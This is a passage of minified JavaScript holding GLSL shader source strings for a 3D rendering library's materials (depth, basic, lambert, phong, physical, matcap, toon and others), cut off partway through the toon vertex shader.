<tonemapping_fragment>\\n\\t#include <colorspace_fragment>\\n}\",cube_vert:\"varying vec3 vWorldDirection;\\n#include <common>\\nvoid main() {\\n\\tvWorldDirection = transformDirection( position, modelMatrix );\\n\\t#include <begin_vertex>\\n\\t#include <project_vertex>\\n\\tgl_Position.z = gl_Position.w;\\n}\",cube_frag:\"uniform samplerCube tCube;\\nuniform float tFlip;\\nuniform float opacity;\\nvarying vec3 vWorldDirection;\\nvoid main() {\\n\\tvec4 texColor = textureCube( tCube, vec3( tFlip * vWorldDirection.x, vWorldDirection.yz ) );\\n\\tgl_FragColor = texColor;\\n\\tgl_FragColor.a *= opacity;\\n\\t#include <tonemapping_fragment>\\n\\t#include <colorspace_fragment>\\n}\",depth_vert:\"#include <common>\\n#include <batching_pars_vertex>\\n#include <uv_pars_vertex>\\n#include <displacementmap_pars_vertex>\\n#include <morphtarget_pars_vertex>\\n#include <skinning_pars_vertex>\\n#include <logdepthbuf_pars_vertex>\\n#include <clipping_planes_pars_vertex>\\nvarying vec2 vHighPrecisionZW;\\nvoid main() {\\n\\t#include <uv_vertex>\\n\\t#include <batching_vertex>\\n\\t#include <skinbase_vertex>\\n\\t#include <morphinstance_vertex>\\n\\t#ifdef USE_DISPLACEMENTMAP\\n\\t\\t#include <beginnormal_vertex>\\n\\t\\t#include <morphnormal_vertex>\\n\\t\\t#include <skinnormal_vertex>\\n\\t#endif\\n\\t#include <begin_vertex>\\n\\t#include <morphtarget_vertex>\\n\\t#include <skinning_vertex>\\n\\t#include <displacementmap_vertex>\\n\\t#include <project_vertex>\\n\\t#include <logdepthbuf_vertex>\\n\\t#include <clipping_planes_vertex>\\n\\tvHighPrecisionZW = gl_Position.zw;\\n}\",depth_frag:\"#if DEPTH_PACKING == 3200\\n\\tuniform float opacity;\\n#endif\\n#include <common>\\n#include <packing>\\n#include <uv_pars_fragment>\\n#include <map_pars_fragment>\\n#include <alphamap_pars_fragment>\\n#include <alphatest_pars_fragment>\\n#include <alphahash_pars_fragment>\\n#include <logdepthbuf_pars_fragment>\\n#include <clipping_planes_pars_fragment>\\nvarying vec2 vHighPrecisionZW;\\nvoid main() {\\n\\tvec4 diffuseColor = vec4( 1.0 );\\n\\t#include <clipping_planes_fragment>\\n\\t#if DEPTH_PACKING == 3200\\n\\t\\tdiffuseColor.a = opacity;\\n\\t#endif\\n\\t#include <map_fragment>\\n\\t#include <alphamap_fragment>\\n\\t#include <alphatest_fragment>\\n\\t#include <alphahash_fragment>\\n\\t#include <logdepthbuf_fragment>\\n\\tfloat fragCoordZ = 0.5 * vHighPrecisionZW[0] / vHighPrecisionZW[1] + 0.5;\\n\\t#if DEPTH_PACKING == 3200\\n\\t\\tgl_FragColor = vec4( vec3( 1.0 - fragCoordZ ), opacity );\\n\\t#elif DEPTH_PACKING == 3201\\n\\t\\tgl_FragColor = packDepthToRGBA( fragCoordZ );\\n\\t#elif DEPTH_PACKING == 3202\\n\\t\\tgl_FragColor = vec4( packDepthToRGB( fragCoordZ ), 1.0 );\\n\\t#elif DEPTH_PACKING == 3203\\n\\t\\tgl_FragColor = vec4( packDepthToRG( fragCoordZ ), 0.0, 1.0 );\\n\\t#endif\\n}\",distanceRGBA_vert:\"#define DISTANCE\\nvarying vec3 vWorldPosition;\\n#include <common>\\n#include <batching_pars_vertex>\\n#include <uv_pars_vertex>\\n#include <displacementmap_pars_vertex>\\n#include <morphtarget_pars_vertex>\\n#include <skinning_pars_vertex>\\n#include <clipping_planes_pars_vertex>\\nvoid main() {\\n\\t#include <uv_vertex>\\n\\t#include <batching_vertex>\\n\\t#include <skinbase_vertex>\\n\\t#include <morphinstance_vertex>\\n\\t#ifdef USE_DISPLACEMENTMAP\\n\\t\\t#include <beginnormal_vertex>\\n\\t\\t#include <morphnormal_vertex>\\n\\t\\t#include <skinnormal_vertex>\\n\\t#endif\\n\\t#include <begin_vertex>\\n\\t#include <morphtarget_vertex>\\n\\t#include <skinning_vertex>\\n\\t#include <displacementmap_vertex>\\n\\t#include <project_vertex>\\n\\t#include <worldpos_vertex>\\n\\t#include <clipping_planes_vertex>\\n\\tvWorldPosition = worldPosition.xyz;\\n}\",distanceRGBA_frag:\"#define DISTANCE\\nuniform vec3 referencePosition;\\nuniform float nearDistance;\\nuniform float farDistance;\\nvarying vec3 vWorldPosition;\\n#include <common>\\n#include <packing>\\n#include <uv_pars_fragment>\\n#include <map_pars_fragment>\\n#include <alphamap_pars_fragment>\\n#include <alphatest_pars_fragment>\\n#include <alphahash_pars_fragment>\\n#include <clipping_planes_pars_fragment>\\nvoid main () {\\n\\tvec4 diffuseColor = vec4( 1.0 );\\n\\t#include <clipping_planes_fragment>\\n\\t#include <map_fragment>\\n\\t#include <alphamap_fragment>\\n\\t#include <alphatest_fragment>\\n\\t#include <alphahash_fragment>\\n\\tfloat dist = length( vWorldPosition - referencePosition );\\n\\tdist = ( dist - nearDistance ) / ( farDistance - nearDistance );\\n\\tdist = saturate( dist );\\n\\tgl_FragColor = packDepthToRGBA( dist );\\n}\",equirect_vert:\"varying vec3 vWorldDirection;\\n#include <common>\\nvoid main() {\\n\\tvWorldDirection = transformDirection( position, modelMatrix );\\n\\t#include <begin_vertex>\\n\\t#include <project_vertex>\\n}\",equirect_frag:\"uniform sampler2D tEquirect;\\nvarying vec3 vWorldDirection;\\n#include <common>\\nvoid main() {\\n\\tvec3 direction = normalize( vWorldDirection );\\n\\tvec2 sampleUV = equirectUv( direction );\\n\\tgl_FragColor = texture2D( tEquirect, sampleUV );\\n\\t#include <tonemapping_fragment>\\n\\t#include <colorspace_fragment>\\n}\",linedashed_vert:\"uniform float scale;\\nattribute float lineDistance;\\nvarying float vLineDistance;\\n#include <common>\\n#include <uv_pars_vertex>\\n#include <color_pars_vertex>\\n#include <fog_pars_vertex>\\n#include <morphtarget_pars_vertex>\\n#include <logdepthbuf_pars_vertex>\\n#include <clipping_planes_pars_vertex>\\nvoid main() {\\n\\tvLineDistance = scale * lineDistance;\\n\\t#include <uv_vertex>\\n\\t#include <color_vertex>\\n\\t#include <morphinstance_vertex>\\n\\t#include <morphcolor_vertex>\\n\\t#include <begin_vertex>\\n\\t#include <morphtarget_vertex>\\n\\t#include <project_vertex>\\n\\t#include <logdepthbuf_vertex>\\n\\t#include <clipping_planes_vertex>\\n\\t#include <fog_vertex>\\n}\",linedashed_frag:\"uniform vec3 diffuse;\\nuniform float opacity;\\nuniform float dashSize;\\nuniform float totalSize;\\nvarying float vLineDistance;\\n#include <common>\\n#include <color_pars_fragment>\\n#include <uv_pars_fragment>\\n#include <map_pars_fragment>\\n#include <fog_pars_fragment>\\n#include <logdepthbuf_pars_fragment>\\n#include <clipping_planes_pars_fragment>\\nvoid main() {\\n\\tvec4 diffuseColor = vec4( diffuse, opacity );\\n\\t#include <clipping_planes_fragment>\\n\\tif ( mod( vLineDistance, totalSize ) > dashSize ) {\\n\\t\\tdiscard;\\n\\t}\\n\\tvec3 outgoingLight = vec3( 0.0 );\\n\\t#include <logdepthbuf_fragment>\\n\\t#include <map_fragment>\\n\\t#include <color_fragment>\\n\\toutgoingLight = diffuseColor.rgb;\\n\\t#include <opaque_fragment>\\n\\t#include <tonemapping_fragment>\\n\\t#include <colorspace_fragment>\\n\\t#include <fog_fragment>\\n\\t#include <premultiplied_alpha_fragment>\\n}\",meshbasic_vert:\"#include <common>\\n#include <batching_pars_vertex>\\n#include <uv_pars_vertex>\\n#include <envmap_pars_vertex>\\n#include <color_pars_vertex>\\n#include <fog_pars_vertex>\\n#include <morphtarget_pars_vertex>\\n#include <skinning_pars_vertex>\\n#include <logdepthbuf_pars_vertex>\\n#include <clipping_planes_pars_vertex>\\nvoid main() {\\n\\t#include <uv_vertex>\\n\\t#include <color_vertex>\\n\\t#include <morphinstance_vertex>\\n\\t#include <morphcolor_vertex>\\n\\t#include <batching_vertex>\\n\\t#if defined ( USE_ENVMAP ) || defined ( USE_SKINNING )\\n\\t\\t#include <beginnormal_vertex>\\n\\t\\t#include <morphnormal_vertex>\\n\\t\\t#include <skinbase_vertex>\\n\\t\\t#include <skinnormal_vertex>\\n\\t\\t#include <defaultnormal_vertex>\\n\\t#endif\\n\\t#include <begin_vertex>\\n\\t#include <morphtarget_vertex>\\n\\t#include <skinning_vertex>\\n\\t#include <project_vertex>\\n\\t#include <logdepthbuf_vertex>\\n\\t#include <clipping_planes_vertex>\\n\\t#include <worldpos_vertex>\\n\\t#include <envmap_vertex>\\n\\t#include <fog_vertex>\\n}\",meshbasic_frag:\"uniform vec3 diffuse;\\nuniform float opacity;\\n#ifndef FLAT_SHADED\\n\\tvarying vec3 vNormal;\\n#endif\\n#include <common>\\n#include <dithering_pars_fragment>\\n#include <color_pars_fragment>\\n#include <uv_pars_fragment>\\n#include <map_pars_fragment>\\n#include <alphamap_pars_fragment>\\n#include <alphatest_pars_fragment>\\n#include <alphahash_pars_fragment>\\n#include <aomap_pars_fragment>\\n#include <lightmap_pars_fragment>\\n#include <envmap_common_pars_fragment>\\n#include <envmap_pars_fragment>\\n#include <fog_pars_fragment>\\n#include <specularmap_pars_fragment>\\n#include <logdepthbuf_pars_fragment>\\n#include <clipping_planes_pars_fragment>\\nvoid main() {\\n\\tvec4 diffuseColor = vec4( diffuse, opacity );\\n\\t#include <clipping_planes_fragment>\\n\\t#include <logdepthbuf_fragment>\\n\\t#include <map_fragment>\\n\\t#include <color_fragment>\\n\\t#include <alphamap_fragment>\\n\\t#include <alphatest_fragment>\\n\\t#include <alphahash_fragment>\\n\\t#include <specularmap_fragment>\\n\\tReflectedLight reflectedLight = ReflectedLight( vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ) );\\n\\t#ifdef USE_LIGHTMAP\\n\\t\\tvec4 lightMapTexel = texture2D( lightMap, vLightMapUv );\\n\\t\\treflectedLight.indirectDiffuse += lightMapTexel.rgb * lightMapIntensity * RECIPROCAL_PI;\\n\\t#else\\n\\t\\treflectedLight.indirectDiffuse += vec3( 1.0 );\\n\\t#endif\\n\\t#include <aomap_fragment>\\n\\treflectedLight.indirectDiffuse *= diffuseColor.rgb;\\n\\tvec3 outgoingLight = reflectedLight.indirectDiffuse;\\n\\t#include <envmap_fragment>\\n\\t#include <opaque_fragment>\\n\\t#include <tonemapping_fragment>\\n\\t#include <colorspace_fragment>\\n\\t#include <fog_fragment>\\n\\t#include <premultiplied_alpha_fragment>\\n\\t#include <dithering_fragment>\\n}\",meshlambert_vert:\"#define LAMBERT\\nvarying vec3 vViewPosition;\\n#include <common>\\n#include <batching_pars_vertex>\\n#include <uv_pars_vertex>\\n#include <displacementmap_pars_vertex>\\n#include <envmap_pars_vertex>\\n#include <color_pars_vertex>\\n#include <fog_pars_vertex>\\n#include <normal_pars_vertex>\\n#include <morphtarget_pars_vertex>\\n#include <skinning_pars_vertex>\\n#include <shadowmap_pars_vertex>\\n#include <logdepthbuf_pars_vertex>\\n#include <clipping_planes_pars_vertex>\\nvoid main() {\\n\\t#include <uv_vertex>\\n\\t#include <color_vertex>\\n\\t#include <morphinstance_vertex>\\n\\t#include <morphcolor_vertex>\\n\\t#include <batching_vertex>\\n\\t#include <beginnormal_vertex>\\n\\t#include <morphnormal_vertex>\\n\\t#include <skinbase_vertex>\\n\\t#include <skinnormal_vertex>\\n\\t#include <defaultnormal_vertex>\\n\\t#include <normal_vertex>\\n\\t#include <begin_vertex>\\n\\t#include <morphtarget_vertex>\\n\\t#include <skinning_vertex>\\n\\t#include <displacementmap_vertex>\\n\\t#include <project_vertex>\\n\\t#include <logdepthbuf_vertex>\\n\\t#include <clipping_planes_vertex>\\n\\tvViewPosition = - mvPosition.xyz;\\n\\t#include <worldpos_vertex>\\n\\t#include <envmap_vertex>\\n\\t#include <shadowmap_vertex>\\n\\t#include <fog_vertex>\\n}\",meshlambert_frag:\"#define LAMBERT\\nuniform vec3 diffuse;\\nuniform vec3 emissive;\\nuniform float opacity;\\n#include <common>\\n#include <packing>\\n#include <dithering_pars_fragment>\\n#include <color_pars_fragment>\\n#include <uv_pars_fragment>\\n#include <map_pars_fragment>\\n#include <alphamap_pars_fragment>\\n#include <alphatest_pars_fragment>\\n#include <alphahash_pars_fragment>\\n#include <aomap_pars_fragment>\\n#include <lightmap_pars_fragment>\\n#include <emissivemap_pars_fragment>\\n#include <envmap_common_pars_fragment>\\n#include <envmap_pars_fragment>\\n#include <fog_pars_fragment>\\n#include <bsdfs>\\n#include <lights_pars_begin>\\n#include <normal_pars_fragment>\\n#include <lights_lambert_pars_fragment>\\n#include <shadowmap_pars_fragment>\\n#include <bumpmap_pars_fragment>\\n#include <normalmap_pars_fragment>\\n#include <specularmap_pars_fragment>\\n#include <logdepthbuf_pars_fragment>\\n#include <clipping_planes_pars_fragment>\\nvoid main() {\\n\\tvec4 diffuseColor = vec4( diffuse, opacity );\\n\\t#include <clipping_planes_fragment>\\n\\tReflectedLight reflectedLight = ReflectedLight( vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ) );\\n\\tvec3 totalEmissiveRadiance = emissive;\\n\\t#include <logdepthbuf_fragment>\\n\\t#include <map_fragment>\\n\\t#include <color_fragment>\\n\\t#include <alphamap_fragment>\\n\\t#include <alphatest_fragment>\\n\\t#include <alphahash_fragment>\\n\\t#include <specularmap_fragment>\\n\\t#include <normal_fragment_begin>\\n\\t#include <normal_fragment_maps>\\n\\t#include <emissivemap_fragment>\\n\\t#include <lights_lambert_fragment>\\n\\t#include <lights_fragment_begin>\\n\\t#include <lights_fragment_maps>\\n\\t#include <lights_fragment_end>\\n\\t#include <aomap_fragment>\\n\\tvec3 outgoingLight = reflectedLight.directDiffuse + reflectedLight.indirectDiffuse + totalEmissiveRadiance;\\n\\t#include <envmap_fragment>\\n\\t#include <opaque_fragment>\\n\\t#include <tonemapping_fragment>\\n\\t#include <colorspace_fragment>\\n\\t#include <fog_fragment>\\n\\t#include <premultiplied_alpha_fragment>\\n\\t#include <dithering_fragment>\\n}\",meshmatcap_vert:\"#define MATCAP\\nvarying vec3 vViewPosition;\\n#include <common>\\n#include <batching_pars_vertex>\\n#include <uv_pars_vertex>\\n#include <color_pars_vertex>\\n#include <displacementmap_pars_vertex>\\n#include <fog_pars_vertex>\\n#include <normal_pars_vertex>\\n#include <morphtarget_pars_vertex>\\n#include <skinning_pars_vertex>\\n#include <logdepthbuf_pars_vertex>\\n#include <clipping_planes_pars_vertex>\\nvoid main() {\\n\\t#include <uv_vertex>\\n\\t#include <color_vertex>\\n\\t#include <morphinstance_vertex>\\n\\t#include <morphcolor_vertex>\\n\\t#include <batching_vertex>\\n\\t#include <beginnormal_vertex>\\n\\t#include <morphnormal_vertex>\\n\\t#include <skinbase_vertex>\\n\\t#include <skinnormal_vertex>\\n\\t#include <defaultnormal_vertex>\\n\\t#include <normal_vertex>\\n\\t#include <begin_vertex>\\n\\t#include <morphtarget_vertex>\\n\\t#include <skinning_vertex>\\n\\t#include <displacementmap_vertex>\\n\\t#include <project_vertex>\\n\\t#include <logdepthbuf_vertex>\\n\\t#include <clipping_planes_vertex>\\n\\t#include <fog_vertex>\\n\\tvViewPosition = - mvPosition.xyz;\\n}\",meshmatcap_frag:\"#define MATCAP\\nuniform vec3 diffuse;\\nuniform float opacity;\\nuniform sampler2D matcap;\\nvarying vec3 vViewPosition;\\n#include <common>\\n#include <dithering_pars_fragment>\\n#include <color_pars_fragment>\\n#include <uv_pars_fragment>\\n#include <map_pars_fragment>\\n#include <alphamap_pars_fragment>\\n#include <alphatest_pars_fragment>\\n#include <alphahash_pars_fragment>\\n#include <fog_pars_fragment>\\n#include <normal_pars_fragment>\\n#include <bumpmap_pars_fragment>\\n#include <normalmap_pars_fragment>\\n#include <logdepthbuf_pars_fragment>\\n#include <clipping_planes_pars_fragment>\\nvoid main() {\\n\\tvec4 diffuseColor = vec4( diffuse, opacity );\\n\\t#include <clipping_planes_fragment>\\n\\t#include <logdepthbuf_fragment>\\n\\t#include <map_fragment>\\n\\t#include <color_fragment>\\n\\t#include <alphamap_fragment>\\n\\t#include <alphatest_fragment>\\n\\t#include <alphahash_fragment>\\n\\t#include <normal_fragment_begin>\\n\\t#include <normal_fragment_maps>\\n\\tvec3 viewDir = normalize( vViewPosition );\\n\\tvec3 x = normalize( vec3( viewDir.z, 0.0, - viewDir.x ) );\\n\\tvec3 y = cross( viewDir, x );\\n\\tvec2 uv = vec2( dot( x, normal ), dot( y, normal ) ) * 0.495 + 0.5;\\n\\t#ifdef USE_MATCAP\\n\\t\\tvec4 matcapColor = texture2D( matcap, uv );\\n\\t#else\\n\\t\\tvec4 matcapColor = vec4( vec3( mix( 0.2, 0.8, uv.y ) ), 1.0 );\\n\\t#endif\\n\\tvec3 outgoingLight = diffuseColor.rgb * matcapColor.rgb;\\n\\t#include <opaque_fragment>\\n\\t#include <tonemapping_fragment>\\n\\t#include <colorspace_fragment>\\n\\t#include <fog_fragment>\\n\\t#include <premultiplied_alpha_fragment>\\n\\t#include <dithering_fragment>\\n}\",meshnormal_vert:\"#define NORMAL\\n#if defined( FLAT_SHADED ) || defined( USE_BUMPMAP ) || defined( USE_NORMALMAP_TANGENTSPACE )\\n\\tvarying vec3 vViewPosition;\\n#endif\\n#include <common>\\n#include <batching_pars_vertex>\\n#include <uv_pars_vertex>\\n#include <displacementmap_pars_vertex>\\n#include <normal_pars_vertex>\\n#include <morphtarget_pars_vertex>\\n#include <skinning_pars_vertex>\\n#include <logdepthbuf_pars_vertex>\\n#include <clipping_planes_pars_vertex>\\nvoid main() {\\n\\t#include <uv_vertex>\\n\\t#include <batching_vertex>\\n\\t#include <beginnormal_vertex>\\n\\t#include <morphinstance_vertex>\\n\\t#include <morphnormal_vertex>\\n\\t#include <skinbase_vertex>\\n\\t#include <skinnormal_vertex>\\n\\t#include <defaultnormal_vertex>\\n\\t#include <normal_vertex>\\n\\t#include <begin_vertex>\\n\\t#include <morphtarget_vertex>\\n\\t#include <skinning_vertex>\\n\\t#include <displacementmap_vertex>\\n\\t#include <project_vertex>\\n\\t#include <logdepthbuf_vertex>\\n\\t#include <clipping_planes_vertex>\\n#if defined( FLAT_SHADED ) || defined( USE_BUMPMAP ) || defined( USE_NORMALMAP_TANGENTSPACE )\\n\\tvViewPosition = - mvPosition.xyz;\\n#endif\\n}\",meshnormal_frag:\"#define NORMAL\\nuniform float opacity;\\n#if defined( FLAT_SHADED ) || defined( USE_BUMPMAP ) || defined( USE_NORMALMAP_TANGENTSPACE )\\n\\tvarying vec3 vViewPosition;\\n#endif\\n#include <packing>\\n#include <uv_pars_fragment>\\n#include <normal_pars_fragment>\\n#include <bumpmap_pars_fragment>\\n#include <normalmap_pars_fragment>\\n#include <logdepthbuf_pars_fragment>\\n#include <clipping_planes_pars_fragment>\\nvoid main() {\\n\\tvec4 diffuseColor = vec4( 0.0, 0.0, 0.0, opacity );\\n\\t#include <clipping_planes_fragment>\\n\\t#include <logdepthbuf_fragment>\\n\\t#include <normal_fragment_begin>\\n\\t#include <normal_fragment_maps>\\n\\tgl_FragColor = vec4( packNormalToRGB( normal ), diffuseColor.a );\\n\\t#ifdef OPAQUE\\n\\t\\tgl_FragColor.a = 1.0;\\n\\t#endif\\n}\",meshphong_vert:\"#define PHONG\\nvarying vec3 vViewPosition;\\n#include <common>\\n#include <batching_pars_vertex>\\n#include <uv_pars_vertex>\\n#include <displacementmap_pars_vertex>\\n#include <envmap_pars_vertex>\\n#include <color_pars_vertex>\\n#include <fog_pars_vertex>\\n#include <normal_pars_vertex>\\n#include <morphtarget_pars_vertex>\\n#include <skinning_pars_vertex>\\n#include <shadowmap_pars_vertex>\\n#include <logdepthbuf_pars_vertex>\\n#include <clipping_planes_pars_vertex>\\nvoid main() {\\n\\t#include <uv_vertex>\\n\\t#include <color_vertex>\\n\\t#include <morphcolor_vertex>\\n\\t#include <batching_vertex>\\n\\t#include <beginnormal_vertex>\\n\\t#include <morphinstance_vertex>\\n\\t#include <morphnormal_vertex>\\n\\t#include <skinbase_vertex>\\n\\t#include <skinnormal_vertex>\\n\\t#include <defaultnormal_vertex>\\n\\t#include <normal_vertex>\\n\\t#include <begin_vertex>\\n\\t#include <morphtarget_vertex>\\n\\t#include <skinning_vertex>\\n\\t#include <displacementmap_vertex>\\n\\t#include <project_vertex>\\n\\t#include <logdepthbuf_vertex>\\n\\t#include <clipping_planes_vertex>\\n\\tvViewPosition = - mvPosition.xyz;\\n\\t#include <worldpos_vertex>\\n\\t#include <envmap_vertex>\\n\\t#include <shadowmap_vertex>\\n\\t#include <fog_vertex>\\n}\",meshphong_frag:\"#define PHONG\\nuniform vec3 diffuse;\\nuniform vec3 emissive;\\nuniform vec3 specular;\\nuniform float shininess;\\nuniform float opacity;\\n#include <common>\\n#include <packing>\\n#include <dithering_pars_fragment>\\n#include <color_pars_fragment>\\n#include <uv_pars_fragment>\\n#include <map_pars_fragment>\\n#include <alphamap_pars_fragment>\\n#include <alphatest_pars_fragment>\\n#include <alphahash_pars_fragment>\\n#include <aomap_pars_fragment>\\n#include <lightmap_pars_fragment>\\n#include <emissivemap_pars_fragment>\\n#include <envmap_common_pars_fragment>\\n#include <envmap_pars_fragment>\\n#include <fog_pars_fragment>\\n#include <bsdfs>\\n#include <lights_pars_begin>\\n#include <normal_pars_fragment>\\n#include <lights_phong_pars_fragment>\\n#include <shadowmap_pars_fragment>\\n#include <bumpmap_pars_fragment>\\n#include <normalmap_pars_fragment>\\n#include <specularmap_pars_fragment>\\n#include <logdepthbuf_pars_fragment>\\n#include <clipping_planes_pars_fragment>\\nvoid main() {\\n\\tvec4 diffuseColor = vec4( diffuse, opacity );\\n\\t#include <clipping_planes_fragment>\\n\\tReflectedLight reflectedLight = ReflectedLight( vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ) );\\n\\tvec3 totalEmissiveRadiance = emissive;\\n\\t#include <logdepthbuf_fragment>\\n\\t#include <map_fragment>\\n\\t#include <color_fragment>\\n\\t#include <alphamap_fragment>\\n\\t#include <alphatest_fragment>\\n\\t#include <alphahash_fragment>\\n\\t#include <specularmap_fragment>\\n\\t#include <normal_fragment_begin>\\n\\t#include <normal_fragment_maps>\\n\\t#include <emissivemap_fragment>\\n\\t#include <lights_phong_fragment>\\n\\t#include <lights_fragment_begin>\\n\\t#include <lights_fragment_maps>\\n\\t#include <lights_fragment_end>\\n\\t#include <aomap_fragment>\\n\\tvec3 outgoingLight = reflectedLight.directDiffuse + reflectedLight.indirectDiffuse + reflectedLight.directSpecular + reflectedLight.indirectSpecular + totalEmissiveRadiance;\\n\\t#include <envmap_fragment>\\n\\t#include <opaque_fragment>\\n\\t#include <tonemapping_fragment>\\n\\t#include <colorspace_fragment>\\n\\t#include <fog_fragment>\\n\\t#include <premultiplied_alpha_fragment>\\n\\t#include <dithering_fragment>\\n}\",meshphysical_vert:\"#define STANDARD\\nvarying vec3 vViewPosition;\\n#ifdef USE_TRANSMISSION\\n\\tvarying vec3 vWorldPosition;\\n#endif\\n#include <common>\\n#include <batching_pars_vertex>\\n#include <uv_pars_vertex>\\n#include <displacementmap_pars_vertex>\\n#include <color_pars_vertex>\\n#include <fog_pars_vertex>\\n#include <normal_pars_vertex>\\n#include <morphtarget_pars_vertex>\\n#include <skinning_pars_vertex>\\n#include <shadowmap_pars_vertex>\\n#include <logdepthbuf_pars_vertex>\\n#include <clipping_planes_pars_vertex>\\nvoid main() {\\n\\t#include <uv_vertex>\\n\\t#include <color_vertex>\\n\\t#include <morphinstance_vertex>\\n\\t#include <morphcolor_vertex>\\n\\t#include <batching_vertex>\\n\\t#include <beginnormal_vertex>\\n\\t#include <morphnormal_vertex>\\n\\t#include <skinbase_vertex>\\n\\t#include <skinnormal_vertex>\\n\\t#include <defaultnormal_vertex>\\n\\t#include <normal_vertex>\\n\\t#include <begin_vertex>\\n\\t#include <morphtarget_vertex>\\n\\t#include <skinning_vertex>\\n\\t#include <displacementmap_vertex>\\n\\t#include <project_vertex>\\n\\t#include <logdepthbuf_vertex>\\n\\t#include <clipping_planes_vertex>\\n\\tvViewPosition = - mvPosition.xyz;\\n\\t#include <worldpos_vertex>\\n\\t#include <shadowmap_vertex>\\n\\t#include <fog_vertex>\\n#ifdef USE_TRANSMISSION\\n\\tvWorldPosition = worldPosition.xyz;\\n#endif\\n}\",meshphysical_frag:\"#define STANDARD\\n#ifdef PHYSICAL\\n\\t#define IOR\\n\\t#define USE_SPECULAR\\n#endif\\nuniform vec3 diffuse;\\nuniform vec3 emissive;\\nuniform float roughness;\\nuniform float metalness;\\nuniform float opacity;\\n#ifdef IOR\\n\\tuniform float ior;\\n#endif\\n#ifdef USE_SPECULAR\\n\\tuniform float specularIntensity;\\n\\tuniform vec3 specularColor;\\n\\t#ifdef USE_SPECULAR_COLORMAP\\n\\t\\tuniform sampler2D specularColorMap;\\n\\t#endif\\n\\t#ifdef USE_SPECULAR_INTENSITYMAP\\n\\t\\tuniform sampler2D specularIntensityMap;\\n\\t#endif\\n#endif\\n#ifdef USE_CLEARCOAT\\n\\tuniform float clearcoat;\\n\\tuniform float clearcoatRoughness;\\n#endif\\n#ifdef USE_DISPERSION\\n\\tuniform float dispersion;\\n#endif\\n#ifdef USE_IRIDESCENCE\\n\\tuniform float iridescence;\\n\\tuniform float iridescenceIOR;\\n\\tuniform float iridescenceThicknessMinimum;\\n\\tuniform float iridescenceThicknessMaximum;\\n#endif\\n#ifdef USE_SHEEN\\n\\tuniform vec3 sheenColor;\\n\\tuniform float sheenRoughness;\\n\\t#ifdef USE_SHEEN_COLORMAP\\n\\t\\tuniform sampler2D sheenColorMap;\\n\\t#endif\\n\\t#ifdef USE_SHEEN_ROUGHNESSMAP\\n\\t\\tuniform sampler2D sheenRoughnessMap;\\n\\t#endif\\n#endif\\n#ifdef USE_ANISOTROPY\\n\\tuniform vec2 anisotropyVector;\\n\\t#ifdef USE_ANISOTROPYMAP\\n\\t\\tuniform sampler2D anisotropyMap;\\n\\t#endif\\n#endif\\nvarying vec3 vViewPosition;\\n#include <common>\\n#include <packing>\\n#include <dithering_pars_fragment>\\n#include <color_pars_fragment>\\n#include <uv_pars_fragment>\\n#include <map_pars_fragment>\\n#include <alphamap_pars_fragment>\\n#include <alphatest_pars_fragment>\\n#include <alphahash_pars_fragment>\\n#include <aomap_pars_fragment>\\n#include <lightmap_pars_fragment>\\n#include <emissivemap_pars_fragment>\\n#include <iridescence_fragment>\\n#include <cube_uv_reflection_fragment>\\n#include <envmap_common_pars_fragment>\\n#include <envmap_physical_pars_fragment>\\n#include <fog_pars_fragment>\\n#include <lights_pars_begin>\\n#include <normal_pars_fragment>\\n#include <lights_physical_pars_fragment>\\n#include <transmission_pars_fragment>\\n#include <shadowmap_pars_fragment>\\n#include <bumpmap_pars_fragment>\\n#include <normalmap_pars_fragment>\\n#include <clearcoat_pars_fragment>\\n#include <iridescence_pars_fragment>\\n#include <roughnessmap_pars_fragment>\\n#include <metalnessmap_pars_fragment>\\n#include <logdepthbuf_pars_fragment>\\n#include <clipping_planes_pars_fragment>\\nvoid main() {\\n\\tvec4 diffuseColor = vec4( diffuse, opacity );\\n\\t#include <clipping_planes_fragment>\\n\\tReflectedLight reflectedLight = ReflectedLight( vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ), vec3( 0.0 ) );\\n\\tvec3 totalEmissiveRadiance = emissive;\\n\\t#include <logdepthbuf_fragment>\\n\\t#include <map_fragment>\\n\\t#include <color_fragment>\\n\\t#include <alphamap_fragment>\\n\\t#include <alphatest_fragment>\\n\\t#include <alphahash_fragment>\\n\\t#include <roughnessmap_fragment>\\n\\t#include <metalnessmap_fragment>\\n\\t#include <normal_fragment_begin>\\n\\t#include <normal_fragment_maps>\\n\\t#include <clearcoat_normal_fragment_begin>\\n\\t#include <clearcoat_normal_fragment_maps>\\n\\t#include <emissivemap_fragment>\\n\\t#include <lights_physical_fragment>\\n\\t#include <lights_fragment_begin>\\n\\t#include <lights_fragment_maps>\\n\\t#include <lights_fragment_end>\\n\\t#include <aomap_fragment>\\n\\tvec3 totalDiffuse = reflectedLight.directDiffuse + reflectedLight.indirectDiffuse;\\n\\tvec3 totalSpecular = reflectedLight.directSpecular + reflectedLight.indirectSpecular;\\n\\t#include <transmission_fragment>\\n\\tvec3 outgoingLight = totalDiffuse + totalSpecular + totalEmissiveRadiance;\\n\\t#ifdef USE_SHEEN\\n\\t\\tfloat sheenEnergyComp = 1.0 - 0.157 * max3( material.sheenColor );\\n\\t\\toutgoingLight = outgoingLight * sheenEnergyComp + sheenSpecularDirect + sheenSpecularIndirect;\\n\\t#endif\\n\\t#ifdef USE_CLEARCOAT\\n\\t\\tfloat dotNVcc = saturate( dot( geometryClearcoatNormal, geometryViewDir ) );\\n\\t\\tvec3 Fcc = F_Schlick( material.clearcoatF0, material.clearcoatF90, dotNVcc );\\n\\t\\toutgoingLight = outgoingLight * ( 1.0 - material.clearcoat * Fcc ) + ( clearcoatSpecularDirect + clearcoatSpecularIndirect ) * material.clearcoat;\\n\\t#endif\\n\\t#include <opaque_fragment>\\n\\t#include <tonemapping_fragment>\\n\\t#include <colorspace_fragment>\\n\\t#include <fog_fragment>\\n\\t#include <premultiplied_alpha_fragment>\\n\\t#include <dithering_fragment>\\n}\",meshtoon_vert:\"#define TOON\\nvarying vec3 vViewPosition;\\n#include <common>\\n#include <batching_pars_vertex>\\n#include <uv_pars_vertex>\\n#include <displacementmap_pars_vertex>\\n#include <color_pars_vertex>\\n#include <fog_pars_vertex>\\n#include <normal_pars_vertex>\\n#include <morphtarget_pars_vertex>\\n#include <skinning_pars_vertex>\\n#include <shadowmap_pars_vertex>\\n#include <logdepthbuf_pars_vertex>\\n#include <clipping_planes_pars_vertex>\\nvoid main() 